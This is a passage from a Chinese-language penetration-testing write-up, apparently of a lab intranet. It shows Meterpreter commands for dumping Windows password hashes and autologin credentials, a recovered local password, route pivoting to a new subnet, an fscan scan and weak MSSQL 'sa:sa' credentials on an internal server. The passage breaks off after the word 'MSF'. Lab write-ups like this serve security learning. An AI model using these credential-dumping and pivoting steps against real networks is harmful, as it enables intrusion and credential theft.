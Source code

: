 ![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4qanadx6YN6xVvm8EDpl4OfKa7jCxMicSCVCWfiaGTLSATjPdZPiczLpUF9oZjXS20TuiamgseQzPOPA/640?wx_fmt=png&from=appmsg "")  
  
用其他的方式继续抓一下密码, 成功拿到一组本地用户的用户名及密码: 
```
john:admin!@#45
```

  
.  

```
hashdump
run windows/gather/smart_hashdump
run windows/gather/credentials/windows_autologin
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4qanadx6YN6xVvm8EDpl4OichV5Dc3CpzibrOEPabIZdSwsVmbCpTUDKw5KyY3AgnjyAjsVYPQCVzw/640?wx_fmt=png&from=appmsg "")  
## 域内服务器 Mssql  
  
查看网段发现新网段, 继续添加路由.  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4qanadx6YN6xVvm8EDpl4OPUOgwOqic1J241mVFWhNGLXbAfLqHhZJcPmU0icyc1M4JGrsTUO9bY3Q/640?wx_fmt=png&from=appmsg "")  
  
上传一个
```
fscan
```

  
, 扫描一下网段, 发现存在一台
```
Windows Server 2008 R2
```

  
机器: 
```
10.10.10.18
```

  
, 开放了
```
1433
```

  
端口, 并且获得一组弱口令: 
```
sa:sa
```

  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4qanadx6YN6xVvm8EDpl4O45sxLQ1menhyU7EzzSZWiaGjWibSwkgnsNlibfytLEDMFAQht9LorIyBw/640?wx_fmt=png&from=appmsg "")  
  

```
MSF
```

